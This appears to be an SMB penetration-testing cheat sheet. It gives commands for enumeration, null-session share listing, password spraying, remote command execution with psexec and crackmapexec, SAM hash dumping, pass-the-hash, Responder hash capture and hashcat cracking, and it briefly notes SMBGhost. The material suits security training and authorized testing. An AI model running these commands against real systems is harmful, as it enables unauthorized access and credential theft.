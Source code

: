 ### SMB Basics

- **Function:** Shared access to files, printers, etc.
- **Ports:**
    - TCP/139, UDP/137-138 (NetBIOS)
    - TCP/445 (Direct over TCP/IP)
- **Samba:** Unix/Linux implementation of SMB.
- **MSRPC:** Microsoft Remote Procedure Call, often used with SMB.

### Enumeration

- **Nmap:**

```bash
nmap -sV -sC -p 139,445 <target_IP>
```

- Information: SMB version, hostname, OS (guess).

### Misconfigurations

- **Null Sessions (No Authentication Required):**

```bash
smbclient -N -L //<target_IP>         # List available shares
smbmap -H <target_IP>                 # List shares with permissions
rpcclient -U '%' <target_IP>          # RPC enumeration
enum4linux-ng.py -A -C <target_IP>    # Comprehensive SMB enumeration
```

### Protocol-Specific Attacks

- **Brute-Forcing/Password Spraying:**

```bash
crackmapexec smb <target_IP> -u <user_list> -p <password> --local-auth
```

- **Windows Attacks:**
    - **Remote Code Execution (RCE):**

```bash
impacket-psexec <user>:<password>@<target_IP>
crackmapexec smb <target_IP> -u <user> -p <password> -x 'whoami' --exec-method smbexec
```

- **Enumerate Logged-on Users:**

```bash
crackmapexec smb <target_IP> -u <user> -p <password> --loggedon-users
```

- **Extract Hashes from SAM Database:**

```bash
crackmapexec smb <target_IP> -u <user> -p <password> --sam
```

- **Pass-the-Hash (PtH):**

```bash
crackmapexec smb <target_IP> -u <user> -H <hash>
```

### Forced Authentication Attacks (Responder)

```bash
responder -I <interface>     # Start Responder to capture NetNTLM hashes
```

- **Hash Cracking:**

```bash
hashcat -m 5600 <hash_file> <wordlist>
```

### Latest SMB Vulnerabilities (CVE-2020-0796 - SMBGhost)

- **Vulnerability:** Compression mechanism flaw in SMBv3.1.1 allowing RCE by unauthenticated attacker.
- **Affected Systems:** Windows 10 1903, 1909.
- **Exploitation:** Public exploits are available for this vulnerability.
